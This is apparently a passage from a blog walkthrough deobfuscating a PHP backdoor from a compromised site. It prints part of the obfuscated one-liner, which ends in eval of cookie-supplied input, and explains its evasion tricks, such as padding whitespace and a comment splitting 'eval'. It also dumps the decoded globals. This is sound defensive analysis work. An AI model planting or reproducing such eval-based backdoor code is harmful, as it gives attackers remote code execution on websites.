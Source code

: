 ```php
$rb22c05fb['f884b'][52].$rb22c05fb['f884b'][37].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][23].$rb22c05fb['f884b'][52],);echo @$rb22c05fb[$rb22c05fb['f884b'][88].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][63].$rb22c05fb['f884b'][70].$rb22c05fb['f884b'][15].$rb22c05fb['f884b'][43].$rb22c05fb['f884b'][15].$rb22c05fb['f884b'][5]]($n28c);}elseif ($e76477[$rb22c05fb['f884b'][43]] == $rb22c05fb['f884b'][78]){eval/*v4c8*/($e76477[$rb22c05fb['f884b'][88]]);}exit();} ?>
```

At first glance there's a couple of things to notice:

-   The script is all in one line, with a full "page" of space at the
    beginning, likely in attempt to go unnoticed in a text editor
    without word wrap.
-   It is highly obfuscated.
-   The "global" keyword can be seen used alot of places.
-   Once again the use of the \$\_COOKIE superglobal can be observed.
-   The "eval" function is at the end, separated by a /\* \*/ comment
    block, likely in an attempt to hide from automated detection.

Next let's go ahead and add some quick linebreaks and indentation, to
make it abit more readable:

![]({{site.baseurl}}/assets/images/PHP02_01.png)

We can now begin to see some structure and a pattern used in alot of
these obfuscators, specifically the use initializing a string, and
creating a an array based of offsets in this string.

It is now possible to get an idea of whats going on:

-   Most of the obfuscation evolves around an array being initialized
    from a specific string of characters concatenated by offset. The
    array is made as a global.
-   The main initializing string is written in hex, including the array
    key name.
-   Just below the array is what seems to be some function calls, using
    the "@" error suppression operator.
-   A couple of functions are defined, a foreach loop and then a couple
    of conditions is checked, where the latter at some point calls the
    "eval" function. (also note the use of "echo" - so we might get some
    response from this script!)

Lets dump \$GLOBALS, to see what it contains after assignment:

```php
array(24) {
  ["_GET"]      =>  array(0) {  }
  ["_POST"]     =>  array(0) {  }
  ["_COOKIE"]   =>  array(0) {  }
  ["_FILES"]    =>  array(0) {  }
  ["GLOBALS"]   =>  array(24) { *RECURSION* }
  ["gb2407"]    =>  int(578)
  ["rb22c05fb"] =>  array(24) { *RECURSION* }
  ["e76477"]    =>  NULL
  ["k93f152"]   =>  NULL
  ["f884b"]     =>  string(98) "n%o:z4J'b8G?mEs7/<R(qfi-PuSxwh+	]Qk>.ZgI|`a[{FL\"OB&1XMDl}cY#\)2~@=^v0_3!KNVjetCWy5A9*$dUr; ,6HTp"
  ["ve58d5432"] =>  string(3) "chr"
  ["m9298"]     =>  string(3) "ord"
  ["q46d1a5f1"] =>  string(6) "strlen"
  ["fb1958"]    =>  string(7) "ini_set"
  ["d0207a74"]  =>  string(9) "serialize"
  ["m28921c1"]  =>  string(10) "phpversion"
  ["pc4fb4"]    =>  string(11) "unserialize"
  ["l432c104"]  =>  string(13) "base64_decode"
  ["a518b496"]  =>  string(14) "set_time_limit"
  ["tdab3b"]    =>  string(8) "b6ddf34f"
  ["ka7b4d65"]  =>  string(6) "r6971a"
```